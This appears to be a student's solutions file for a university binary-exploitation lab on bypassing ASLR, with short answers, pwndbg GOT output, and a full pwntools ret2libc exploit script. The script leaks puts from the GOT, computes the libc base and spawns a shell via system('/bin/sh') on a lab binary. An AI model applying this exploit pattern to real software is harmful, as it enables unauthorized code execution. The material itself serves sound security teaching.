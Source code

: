 # Laborator 4

### [Q1]: Knowing the interesting property above, what would be a weakness of ASLR?
### Solution to [Q1]:
The weakness of ASLR is that once we obtain the location of any function or instruction, we can infer the positions of all other functions and data segments relative to that known point (the offsets remain the same, only the base address of of a module changes).

## Exercise 1

### [Q2]: Are there interesting functions you can jump to? Check out the full disassembly with `objdump -M intel -d ./bin/ex1`.
### Solution to [Q2]:
`power` : it allows us to control register values and execute arithmetic operations.

### [Q3]: Try the `got` command in `pwndbg` and `gef`. It will show you the contents of the GOT section. At the beginning of the binary, the imported functions should point to executable stubs in the binary that trigger the linker. After executing the imported functions once, the GOT section should contain their real, libc address.
### Solution to [Q3]:
```python
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/radu/osds-lab/lab4/bin/ex1:
GOT protection: Partial RELRO | Found 2 GOT entries passing the filter
[0x404000] puts@GLIBC_2.2.5 -> 0x7ffff7e2cbd0 (puts) ◂— endbr64
[0x404008] gets@GLIBC_2.2.5 -> 0x7ffff7e2c070 (gets) ◂— endbr64
```

### [Q4]: So the GOT contains addresses from inside imported libraries. How can we exploit this?
### Solution to [Q4]:
Leak address of `puts` -> Leak address of `libc` -> Find offsets for `/bin/sh`, `system`.

## Solution to Exercise 1: 
```python
from pwn import *

context.binary = elf = ELF('./bin/ex1')
p = process()
p.recvline()

# cyclic -l ...
padding = 40

# ropper --file ./bin/ex1 --search "pop rdi"
# 0x0000000000401193: pop rdi; pop rbp; ret;
pop_rdi = 0x0000000000401193

puts = elf.sym.puts

payload = flat(
        b'A' * padding,
        pop_rdi,
        elf.got.puts,
        0xdeadbeef,
        puts,
        elf.sym.main,
)
p.sendline(payload)

puts_base = unpack(p.recvlines(2)[1], 'all')
libc_base = puts_base - 0x0000000000087bd0

# strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep -i /bin/sh
binsh = libc_base + 0x1cb42f


# 0x000000000040101a: ret
ret = 0x000000000040101a

# objdump -T /lib/x86_64-linux-gnu/libc.so.6 | grep -i system
system = libc_base + 0x0000000000058740

payload = flat(
        b'A' * padding,
        pop_rdi,
        binsh,
        0xdeadbeef,
        ret,
        system,
)

p.sendline(payload)
p.interactive()
```